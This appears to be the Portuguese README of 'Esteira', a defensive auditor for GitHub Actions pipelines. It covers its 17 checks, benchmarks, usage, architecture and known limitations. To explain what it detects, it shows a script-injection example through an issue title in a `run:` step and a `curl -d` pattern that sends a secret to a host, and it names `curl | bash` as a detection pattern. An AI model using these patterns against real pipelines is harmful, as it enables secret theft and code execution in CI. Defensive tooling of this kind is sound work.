

<p align="center"><a href="README.en.md"></a></p>

<a href="https://paulo-marcos-lucio.github.io"></a>

<div align="center">

# ⚙️ Esteira

### Auditor de segurança para a sua **esteira de CI/CD** — foco em GitHub Actions.

*Encontra os erros que transformam um pipeline em porta de entrada: **script injection** por contexto não-confiável, **actions não fixadas por SHA**, **`pull_request_target`** fazendo checkout de código de PR, **permissões amplas** do `GITHUB_TOKEN` e segredos vazando em log. Saída em console, JSON e **SARIF** (aba Security do GitHub).*

[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/codeql.yml)
[](https://www.python.org/)
[](LICENSE)
[](https://github.com/astral-sh/ruff)
[](https://mypy-lang.org/)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://owasp.org/Top10/)

</div>

---

## 📌 Por que auditar o pipeline

O CI roda com **segredos** e um **token com permissão de escrita** no repositório. Um erro de configuração ali não derruba um site — entrega as chaves do reino. Os padrões mais explorados:

- **Script injection**: `run: echo "${{ github.event.issue.title }}"` — o título de uma issue (controlado por qualquer um) vira comando de shell.
- **Supply chain**: `uses: acme/action@v1` — a tag pode ser movida para código malicioso a qualquer momento. Fixar por SHA congela o que roda.
- **`pull_request_target`** + checkout do PR: executa **código não-confiável** com segredos e token de escrita.
- **`permissions: write-all`**: dá ao workflow (e a toda action de terceiro dentro dele) poder que ele não precisa.

O Esteira encontra esses padrões e explica a correção — com número de linha e mapeamento OWASP/CWE.

---

## 🔎 O que ele verifica

As 17 checagens do catálogo — a mesma lista que `esteira rules` imprime (um teste falha o CI se
esta tabela divergir do catálogo, inclusive na severidade).

| Checagem | Risco | Severidade | OWASP 2025 / CWE |
| --- | --- | --- | --- |
| `script-injection` | Contexto não-confiável (`github.event.*`, `head_ref`) no `run` | 🔴 Crítica | A05 · CWE-94 |
| `pull-request-target-checkout` | checkout de código de PR em `pull_request_target` | 🔴 Crítica | A08 · CWE-94 |
| `unpinned-action-thirdparty` | Action de terceiros por tag, não por SHA | 🟠 Alta | A03 · CWE-1357 |
| `secret-to-thirdparty-action` | `GITHUB_TOKEN`/segredo via `with:` para action de terceiros **não** fixada por SHA | 🟠 Alta | A03 · CWE-522 |
| `broad-permissions` | `write-all` / escopos de escrita globais | 🟠 Alta | A01 · CWE-732 |
| `secret-in-run` | Segredo impresso em `echo`/`printf` (ou no `console.log` do `github-script`) — ou exportado para `$GITHUB_ENV`, o que o entrega a todos os steps seguintes (🟡 Média) | 🟠 Alta | A09 · CWE-532 |
| `checkout-credentials-in-artifact` | checkout sem `persist-credentials: false` + `upload-artifact` publicando o workspace | 🟠 Alta | A02 · CWE-522 |
| `insecure-commands` | `ACTIONS_ALLOW_UNSECURE_COMMANDS` reativa `set-env`/`add-path` (CVE-2020-15228) → injeção de ambiente/PATH | 🟠 Alta | A05 · CWE-94 |
| `invalid-yaml` | Workflow que não parseia (análise estrutural pulada — **fail-closed**) | 🟠 Alta | — · CWE-1288 |
| `curl-pipe-shell` | `curl \| bash` — código da rede sem verificação | 🟡 Média | A03 · CWE-494 |
| `self-hosted-runner` | Runner self-hosted (risco em repo público) | 🟡 Média | A08 · CWE-668 |
| `secrets-inherit` | `secrets: inherit` entrega todo o cofre ao reusable workflow | 🟡 Média | A03 · CWE-522 |
| `dangerous-trigger` | `pull_request_target` / `workflow_run` / `issue_comment` | 🔵 Baixa | A08 · CWE-269 |
| `unpinned-action-firstparty` | Action oficial por tag | 🔵 Baixa | A03 · CWE-1357 |
| `unpinned-reusable-workflow` | Reusable workflow por branch/tag | 🔵 Baixa | A03 · CWE-1357 |
| `unpinned-container-image` | Imagem de `container:`/`services:`/`docker://` por tag, não por digest | 🔵 Baixa | A03 · CWE-1357 |
| `missing-permissions` | Sem bloco `permissions` explícito | 🔵 Baixa | A01 · CWE-732 |

> **Edição do OWASP:** os rótulos são do **Top 10:2025**. O ano importa — `A03` é *Software Supply
> Chain Failures* em 2025 e era *Injection* em 2021. Quem consome o relatório por máquina lê o campo
> `owasp_edition` do JSON/SARIF em vez de interpretar a string.

---

## 🔬 O que foi medido

Números desta bateria — todos **reproduzíveis com `pytest` neste repositório** (249 testes verdes). Não são estimativa de marketing; são a régua que trava a regressão.

> **Comparação honesta contra o zizmor** (o incumbente maduro do domínio): o benchmark reprodutível da suíte está em [guardiao/BENCHMARK.md](https://github.com/Paulo-Marcos-Lucio/guardiao/blob/main/BENCHMARK.md) — versões e commits fixados, e diz onde a Esteira encontra menos que o zizmor. Onde a Esteira ganha é precisão em repositório limpo e calibração; **não vendemos superioridade de cobertura**.

- **17 de 17 checagens** disparam na severidade **fixada em teste** contra casos sintéticos, com **zero divergência de severidade**. O meta-teste de catálogo é implacável: checagem nova nasce vermelha até ter caso positivo, severidade declarada, rótulo OWASP da edição e linha nesta tabela — rebaixar `script-injection` de Crítica para Baixa (o que abriria o portão do CI) faz a suíte falhar.
- **Zero falso-positivo** no workflow endurecido que **fixa as actions por SHA** e declara `permissions: contents: read`: ele sai com **nenhum achado**. Pinar por SHA e declarar o mínimo é exatamente o que a ferramenta cobra — quem já faz não recebe ruído.
- **Corpus rotulado, versionado e público** em [`bench/`](bench/): 18 workflows positivos (**20 achados rotulados**, cobrindo as **17 de 17** regras do catálogo) e 5 negativos com **8 linhas-armadilha**. `python bench/avaliar.py` mede recall e precisão com **intervalo de Wilson** e sai com código 1 se aparecer falso-positivo ou falso-negativo; a mesma bateria roda no `pytest`, então corpus que apodrece quebra o CI. Medido em 2026-08-05: **20/20 recall, IC95% [84% ; 100%], zero falso-positivo**. **O que esse número não é:** os workflows foram escritos por quem escreveu a ferramenta; ele mede cobertura do catálogo contra casos canônicos, não acurácia contra pipelines de produção. Os limites estão listados em `bench/README.md`.
- **ReDoS eliminado no próprio portão.** O padrão de `curl | bash` tinha backtracking exponencial: uma linha `run:` de 129 caracteres travava a varredura por **7,1 s**, e cada ~19 caracteres a mais multiplicavam o tempo por ~14 (≈90 s numa linha de ~150 caracteres, rumo ao *timeout* do job — a ferramenta virava o DoS do pipeline que ela audita). Hoje a mesma entrada leva **< 0,01 s** (medido: ~0,00002 s), com um **teste que cronometra** e reprova a regressão.

---

## ⚡ Quickstart

Do zero ao primeiro relatório em três comandos. **Pré-requisito:** Python **3.10+** e `git`.

```bash
# 1. instale a partir do Git (nome no PyPI é de terceiro — veja abaixo)
pipx install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git"

# 2. audite os workflows do repositório atual
cd meu-repositorio
esteira scan .

# 3. (opcional) gere o SARIF para a aba Security do GitHub
esteira scan . -f sarif -o esteira.sarif
```

O `scan .` procura `.github/workflows/*.yml` recursivamente e imprime cada achado com
**linha, severidade, correção sugerida** e um plano de ação. Sai com **código 1** quando há
achado `high`+ (o default), então já serve de portão de CI sem mais configuração. Exemplo real
(fixture com `pull_request_target` + interpolação de título de PR no `run:`):

```
Sev      Checagem            Local                          Detalhe
CRÍTICA  script-injection    .github/workflows/deploy.yml:8 Contexto não-confiável interpolado
BAIXA    missing-permissions .github/workflows/deploy.yml:1 Sem bloco 'permissions'
BAIXA    dangerous-trigger   .github/workflows/deploy.yml:2 Gatilho privilegiado em uso
...
4 achado(s) em 1 workflow(s) —  CRÍTICA: 1    BAIXA: 3     (exit 1)
```

---

## 🚀 Instalação

```bash
pipx install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git"   # ou pip install
```

Ou a partir do clone:

```bash
git clone https://github.com/Paulo-Marcos-Lucio/esteira.git
cd esteira
pip install .        # ou: pip install -e ".[dev]"
```

> **Não use `pip install esteira`.** O nome `esteira` no PyPI é de **outra pessoa** (um servidor de
> automação, de 2021) — o comando `esteira` nem existe naquele pacote. Este projeto não está
> publicado no PyPI; instale pelo Git, como acima. Em CI, fixe a instalação por SHA
> (`...esteira.git@<sha-de-40-hex>`) — é a mesma prática que o Esteira exige das suas actions.

---

## 🧑‍💻 Uso

```bash
# audita os workflows do repositório atual (.github/workflows)
esteira scan .

# em JSON, falhando o pipeline em achados High+
esteira scan . -f json --fail-on high

# SARIF para a aba Security do GitHub
esteira scan . -f sarif -o esteira.sarif

# aponta direto para um arquivo
esteira scan .github/workflows/deploy.yml

# roda só (ou pula) checagens específicas — repita a flag para várias
esteira scan . --only script-injection --only broad-permissions
esteira scan . --skip unpinned-action-firstparty

# lista as checagens
esteira rules
```

### Flags do `scan`

| Flag | Default | Quando mudar |
| --- | --- | --- |
| `-f, --format` | `console` | `json` para consumir por máquina; `sarif` para a aba Security do GitHub |
| `-o, --output` | *(stdout)* | grava o relatório num arquivo (obrigatório com nada em `console`; passar `-o` com `--format console` é erro de uso → exit 2) |
| `--fail-on` | `high` | `critical` afrouxa o portão; `low`/`medium` aperta. `none` nunca falha (só relata) |
| `--only` | *(todas)* | foca uma triagem numa ou mais checagens (id da coluna `esteira rules`); id desconhecido → exit 2 |
| `--skip` | *(nenhuma)* | silencia uma checagem ruidosa no seu contexto sem desligar o resto |
| `--perfil` | *(nenhum)* | `oss-publico` ou `interno` — ajusta severidade pelo contexto real do repositório (ver abaixo) |

### Perfis de severidade (`--perfil`)

O catálogo declara UMA severidade padrão por checagem, mas o mesmo achado não pesa igual em
todo contexto. Um runner self-hosted é uma porta aberta num repositório público — qualquer
PR de fork de qualquer pessoa o aciona; no mesmo repositório fechado ao público, só quem já
tem push consegue abrir PR, e o risco vira só higiene de infraestrutura própria.

```bash
esteira scan . --perfil oss-publico   # PRs de qualquer pessoa, de fora
esteira scan . --perfil interno       # só quem já tem push abre PR
```

O que muda, por checagem (padrão do catálogo → perfil):

- **`self-hosted-runner`**: 🟡 Média → 🔴 Crítica em `oss-publico`; → 🔵 Baixa em `interno`.
- **`dangerous-trigger`**: 🔵 Baixa → 🟡 Média em `oss-publico`; sem mudança em `interno`.
- **`missing-permissions`**: 🔵 Baixa → 🟡 Média em `oss-publico`; sem mudança em `interno`.

O perfil aplicado sai no envelope (`profile` no JSON e no SARIF, `null` quando a flag não é
usada) e cada achado ajustado carrega a **justificativa** de por que mudou (`severity_note`
no JSON, um painel próprio no console) — uma severidade diferente do catálogo nunca aparece
como número mudo. Checagens fora desta tabela (injeção, segredo exposto, pinagem de
supply-chain) pesam igual em qualquer contexto e nenhum perfil as toca.

### Supressão inline (por linha)

Marcou um ponto como revisado e seguro? Suprima **na linha do achado**:

```yaml
- uses: minha-org/action-interna@v2  # esteira: ignore[unpinned-action-firstparty]
```

`# esteira: ignore[regra]` é **escopada**: só cala a checagem nomeada, então não esconde por
acidente outro achado na mesma linha. `# esteira: ignore` (sem colchete) cala a linha inteira.
Uma marca `# zizmor: ignore` de outro auditor também é respeitada como "linha revisada".

### No próprio GitHub Actions

```yaml
- run: pip install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git@<sha-de-40-hex>"
- run: esteira scan . --fail-on high -f sarif -o esteira.sarif
- uses: github/codeql-action/upload-sarif@08d09a53f0f5d694f253bd25732e4429c9e9337f # v3
  if: always()
  with:
    sarif_file: esteira.sarif
```

### Códigos de saída e `--fail-on`

| Saída | Significado |
| --- | --- |
| `0` | Nenhum achado no nível de `--fail-on` ou acima (inclui "caminho existe, mas não tem workflow" — o aviso vai para o stderr) |
| `1` | Achado com severidade `>= --fail-on` |
| `2` | Erro de uso: caminho inexistente, ID desconhecido em `--only`/`--skip`, `--output` com `--format console` |

`--fail-on` aceita `none · info · low · medium · high · critical`. O **default do Esteira é `high`**.
Os defaults **não** são iguais em toda a suíte, e isso é deliberado: o Guardião (segredos) usa
`medium`, porque a consequência de uma credencial vazada é categoricamente pior que a de um
cabeçalho ausente — um scanner de segredo deve ter o gatilho mais sensível.

| Ferramenta | Default de `--fail-on` |
| --- | --- |
| Esteira | `high` |
| Chaveiro | `high` |
| Sentinela | `alta` (vocabulário PT) |
| Guardião | `medium` |

---

## 🔓 Versão Pro (privada) — hardening conduzido da sua cadeia de CI/CD

**A engine é a mesma deste repositório** — o mesmo catálogo de 17 checagens que trava o CI aqui, com os mesmos números de campo (17 de 17 disparando na severidade fixada, zero falso-positivo no workflow endurecido). A versão Pro **não é um motor secreto**: é **serviço** — o trabalho humano em cima da engine que você já pode rodar.

| Dimensão | Ferramenta pública (você roda) | Pro · serviço (eu conduzo com você) |
| --- | --- | --- |
| **Engine** | mesma engine, mesmo catálogo de 17 checagens, mesma saída | **a mesma engine** — não há motor escondido; o que muda é o trabalho em cima dela |
| **Escopo** | um repositório / um caminho por vez | **organização inteira / monorepo**, com cada achado adjudicado (descarto o falso-positivo, confirmo o real) |
| **Achado** | apontado com linha, severidade e correção | **correção aplicada via Pull Request**: SHA-pin das actions, permissões mínimas por job, isolamento de `pull_request_target`, segredo fora do log — o *diff* pronto para revisar e mergear |
| **Evidência** | relatório console / JSON / SARIF que você gera | SARIF/JSON versionado **antes × depois** (OWASP **A03:2025 — Software Supply Chain Failures**), para auditoria e conformidade |
| **Continuidade** | você reroda quando quiser | **reteste após o merge** + mentoria do time para o hardening não regredir no próximo workflow |

> Serviço prestado sobre pipelines que você mantém ou tem autorização para revisar (veja *Uso ético*). Seu deploy roda com token de escrita e segredos — um erro ali entrega o reino; o serviço é fechar essa porta, com o *diff* na mão, antes que alguém entre.

<div align="center">

[](https://paulo-marcos-lucio.github.io)
[](https://www.linkedin.com/in/paulo-marcos-a07379174/)

</div>

---

## 🏗️ Arquitetura

O Esteira lê os arquivos de workflow do seu repositório (`.github/workflows/*.yml` e os `action.yml` de composite actions), procura os padrões que transformam o CI em porta de entrada e devolve cada achado com número de linha, severidade e correção. O caminho do dado é curto e linear: o **loader** descobre e parseia os workflows; o **motor** roda os detectores — por linha e estruturais — arquivo a arquivo; cada padrão vira um **Finding** que o **catálogo** carimba com severidade e rótulo OWASP/CWE; e os **renderizadores** entregam o resultado em console, JSON ou SARIF. Se um arquivo não parseia, ele não é ignorado em silêncio — vira um achado `invalid-yaml` (fail-closed). Em 20 segundos: entra YAML de pipeline, sai um relatório acionável do que fechar e por quê.



```
src/esteira/
├── core/        # modelos + loader (descoberta recursiva de workflows, parse YAML)
├── checks/      # catálogo declarativo, detectores (por linha + estruturais), motor
├── report/      # console (rich), json, sarif
└── cli.py       # interface typer
```

Detecção **estrutural**: quando o YAML parseia, as checagens iteram a árvore já parseada (`jobs → steps → run/uses/with`). Assim, `${{ }}` dentro de `env:` ou de um comentário não é confundido com shell, os *plain scalars* de `run:` são cobertos por inteiro, a indireção por `env` (inclusive encadeada) é resolvida e a notação por colchete (`github['event']['issue']['title']`) é normalizada antes do match. Só quando o arquivo **não** parseia é que cai para um melhor-esforço por linha — e o próprio erro de sintaxe vira um achado `invalid-yaml` de severidade alta (**fail-closed**: um arquivo não-analisado não passa o CI escondido atrás de um erro). O loader trata o clássico *gotcha* do YAML 1.1 (`on:` → booleano `true`) e a varredura é blindada por arquivo: nenhuma exceção de parse derruba a análise dos demais. Em um **monorepo**, a descoberta é recursiva: encontra todo `.github/workflows/` sob o caminho apontado — o do repositório e o de cada subprojeto — podando diretórios de dependência vendorada (`node_modules`, `vendor`, …) e caches/VCS ocultos para não auditar o CI de uma dependência como se fosse o seu.

---

## 🔬 Qualidade de engenharia & método

**Portões, medidos agora neste repo:** 249 testes verdes (incluindo *property-based* com Hypothesis) · cobertura **96%** (gate `--cov-fail-under=93`, o medido arredondado para baixo — trava anti-regressão, não aspiração) · `mypy --strict` limpo (16 arquivos) · `ruff` lint + format limpos (36 arquivos) · CI em matriz **Python 3.10 / 3.11 / 3.12** (`fail-fast: false`). O comando mora no `pyproject.toml`, não no YAML: dev e CI rodam a mesma linha.

**Teste que reprova a fachada, não a aparência.** A severidade é o que decide se o CI do cliente reprova; por isso ela é fixada num dict independente e comparada ao catálogo em `test_severidade_de_toda_checagem_esta_fixada` — rebaixar `script-injection` de Crítica para Baixa (o que abriria o portão) faz a suíte falhar antes do merge. Um meta-teste companheiro exige que **toda** checagem nova nasça com caso positivo que de fato dispara; e o teste de ReDoS **cronometra**: a forma corrigida do `curl | bash` roda em < 0,5 s onde a quebrada levava 7,1 s, com um teste irmão garantindo que "ficou rápido" não virou "parou de detectar".

**Arquitetura — só o que está no código:**

- **Separação de responsabilidades:** `core/` (modelos + loader YAML) × `checks/` (catálogo, detectores, motor) × `report/` (console, json, sarif) × `cli.py`.
- **Fonte única de verdade:** severidade + rótulo OWASP/CWE + recomendação vivem só em `checks/catalog.py` (um `CheckMeta` por checagem); os três renderizadores leem dele, sem duplicar rótulo.
- **Contrato de saída versionado:** JSON com `schema: suite-appsec/1` e SARIF **2.1.0** (`$schema` do schemastore, catálogo completo como `rules`) para a aba Security.
- **Relatório vinculável a um código:** o envelope do JSON — e o `runs[0].properties` do SARIF — carregam `commit` (o commit do repositório **auditado**: `ESTEIRA_COMMIT` → `git rev-parse HEAD` → `null` fora de repo git), `ruleset_hash` (SHA-256 do catálogo de 17 checagens) e `artifact_sha256` (auto-hash do relatório). Sem os três, um achado que desaparece na entrega seguinte é indistinguível de uma regra que foi afrouxada. **Para conferir o `artifact_sha256`:** ponha `null` no campo, serialize com `json.dumps(doc, sort_keys=True, ensure_ascii=False, separators=(",", ":"))` e tire o SHA-256 do UTF-8.
- **Redação de credencial na evidência:** o `evidence` copia trecho da linha do workflow — e a regra `secret-in-run` existe justamente para achar linha com segredo. Toda credencial de **formato conhecido** (AWS, GitHub PAT, Stripe, Slack, Google, npm, PyPI, GitLab, SendGrid, JWT, bloco PEM) sai mascarada nas pontas, no console, no JSON e no `snippet` do SARIF. A redação vem **antes** do truncamento em 120 caracteres, senão um segredo que começa no caractere 110 sairia com 10 caracteres crus. Não há regra de entropia genérica de propósito: ela mastigaria o SHA de 40 hex do pin de action, que é a evidência principal de `unpinned-action-*`. **Limite assumido:** credencial de formato desconhecido (senha solta, token interno) não é redigida.
- **Tipos estritos e imutabilidade:** `mypy --strict`, `from __future__ import annotations` em todo módulo, e os modelos de domínio (`Finding`, `CheckMeta`) são `@dataclass(frozen=True)`.

**Cadeia de suprimentos do próprio repo:** as três actions do CI são fixadas por **SHA de 40 hex** (não por tag), com `dependabot.yml` atualizando actions e pip semanalmente — pinar sem atualizar congela a versão vulnerável. O checkout usa `persist-credentials: false`, o job declara `permissions: contents: read`, e um job `self-scan` faz o Esteira auditar o próprio pipeline (`--fail-on low`): o CI pratica o que a ferramenta cobra.

**PT-BR em código, teste e doc** é decisão consciente de consistência: nome de teste, mensagem de achado e recomendação falam a língua de quem vai ler o relatório.

---

## ⚖️ Uso ético

Ferramenta **defensiva**, para auditar pipelines que você mantém ou tem autorização para revisar. Os achados são apontados com a correção — o objetivo é endurecer, não explorar.

---

## 🚧 Limitações conhecidas

Análise estática não substitui revisão humana, e a Esteira é honesta sobre o que **não** cobre hoje:

- **Exfiltração de segredo por rede** (`curl -d "t=${{ secrets.X }}" host`) não é marcada: enviar um token a um host legítimo (`Authorization: Bearer`) é uso normal, e flagar geraria falso-positivo demais. São apontados o segredo impresso no stdout (`echo`/`printf` no `run:`, `console.log`/`core.info` no `github-script`) e o segredo exportado para `$GITHUB_ENV`. **`$GITHUB_OUTPUT` ainda não é apontado** — a propagação é análoga, mas não foi adjudicada em campo, e regra não medida é ruído em potencial.
- **Propagação de taint por `steps.*.outputs` / `needs.*.outputs`** não é rastreada: se um step captura contexto não-confiável numa saída (`echo "x=${{ github.event.issue.title }}" >> "$GITHUB_OUTPUT"`) e **outro** step depois interpola `${{ steps.id.outputs.x }}` direto no `run:`, só a **linha de origem** é marcada — o segundo uso passa. É troca deliberada: marcar todo `steps.*.outputs`/`needs.*.outputs` no shell geraria falso-positivo demais (a maioria das saídas é de dado confiável). Feche a origem, que é onde o alerta aparece.
- **`with.args`/`entrypoint` de actions `docker://`** não são inspecionados; os sinks de execução varridos são `run:` e o `script:` do `actions/github-script`.
- **Cobertura de runner** limita-se a labels literais e `matrix` resolvível estaticamente; um `runs-on` de expressão dinâmica não-resolvível não é classificado.
- **`curl | bash` com mais de 3 wrappers encadeados** (`sudo env time nice …`) deixa de casar. É troca deliberada: a forma ilimitada do padrão era exponencial em backtracking e uma linha `run:` de 129 caracteres travava a varredura por 7 s (e ~160 caracteres, por horas) — DoS do próprio portão de auditoria.
- **`checkout-credentials-in-artifact`** exige os dois lados do vazamento: checkout sem `persist-credentials: false` **e**, depois dele, um `upload-artifact` publicando a raiz do workspace. Uma exfiltração da credencial por outro caminho (um `run:` que empacota o `.git` na mão) não é detectada.
- **Caminho sem workflow nenhum** sai com código **0**, não 1 nem 2: o aviso vai para o stderr. Quem quiser tratar "repositório sem CI" como erro precisa checar `summary.files_scanned` do JSON.

Contribuições que fechem esses gaps (com testes de regressão) são bem-vindas.

---

## 🧭 Roadmap

- [x] Suporte a monorepo (varrer múltiplos `.github/workflows`).
- [x] Checagem de `GITHUB_TOKEN` passado a actions de terceiros.
- [x] Auto-fix **sugerido** (env indirection para script injection) — o achado traz o padrão de correção pronto (mover a expressão para `env:` e usar `"$VAR"`/`process.env`); a ferramenta sugere, não reescreve o YAML.
- [ ] Detector dedicado de exfiltração de segredo (com alowlist de hosts).
- [ ] Regras para GitLab CI e Azure Pipelines.

---

## 📄 Licença

[MIT](LICENSE) © 2026 Paulo Marcos Lucio.

---

<div align="center">
<sub>Parte da suíte AppSec — junto do <a href="https://github.com/Paulo-Marcos-Lucio/sentinela">Sentinela</a>, <a href="https://github.com/Paulo-Marcos-Lucio/guardiao">Guardião</a> e <a href="https://github.com/Paulo-Marcos-Lucio/chaveiro">Chaveiro</a>.</sub>
</div>
